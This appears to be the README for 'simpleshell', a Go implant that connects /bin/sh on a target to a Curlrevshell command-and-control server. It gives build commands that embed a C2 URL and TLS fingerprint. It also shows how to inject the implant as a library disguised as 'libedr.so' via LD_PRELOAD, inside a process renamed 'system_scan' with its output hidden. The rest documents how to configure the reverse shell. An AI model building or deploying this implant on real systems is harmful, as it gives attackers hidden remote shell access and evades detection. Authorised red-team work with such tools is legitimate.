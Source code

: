 `simpleshell` the Program
=========================
A small program which connects a subprogram and Curlrevshell.  It can also be
built as a shared object file.

Quickstart
----------

### Standalone Program
```sh
go build
# Put it on target
./simpleshell
```

### Injectable Library
```sh
CGO_ENABLED=1 go build -v -trimpath -buildmode c-shared -o libedr.so -ldflags '
    -w -s
    -X main.C2=https://example.com/io
    -X main.Fingerprint=pSUroiq0g92Z3m08n7g/zPQyspRyjm2x/enFRndcdL0=
'
bash -c '
    LD_PRELOAD=./libedr.so \
    exec -a system_scan sleep 86400 &
' </dev/null >&0 2>&1 &
```

Usage
-----
```
Usage: simpleshell [options] [command...]

Simple single-stream implant which connects a command to Curlrevshell.

The command which would be run is

/bin/sh

Options:
  -c2 URL
    	Curlrevshell's URL (default "https://127.0.0.1:4444/io")
  -fingerprint fingerrpint
    	Curlrevshell's TLS fingerrpint
```

Config
------
Configuration comes in three forms: compile-time defaults, environment
variables, and command-line flags.

If a TLS Fingerprint is not given, normal TLS validation is performed.

### Compile-time defaults
These may be set with `-ldflags '-X...'` as in the [Quickstart](#Quickstart)
above.

Variable           | Default                     | Description
-------------------|-----------------------------|------------
`main.Args`        | _none_                      | Subprocess arguments
`main.C2`          | `https://127.0.0.1:4444/io` | Curlrevshell's URL
`main.Fingerprint` | _none_                      | Curlrevshell's TLS Fingerprint

### Environment variables
Config may also be passed via environment variables, which override
compile-time defaults.

Environment Variable | Compile-Time equivalent
---------------------|------------------------
`SIMPLESHELL_ARGS`   | `main.Args`
`SIMPLESHELL_C2`     | `main.C2`
`SIMPLESHELL_FP`     | `main.Fingerprint`

### Command-line options
Config can also be specified on the command-line, when Simpleshell is running
as a standalone binary.  Command-line config overrides environment variables.

Option         | Compile-Time equivalent
---------------|------------------------
_No flag_      | `main.Args`
`-c2`          | `main.C2`
`-fingerprint` | `main.Fingerprint`
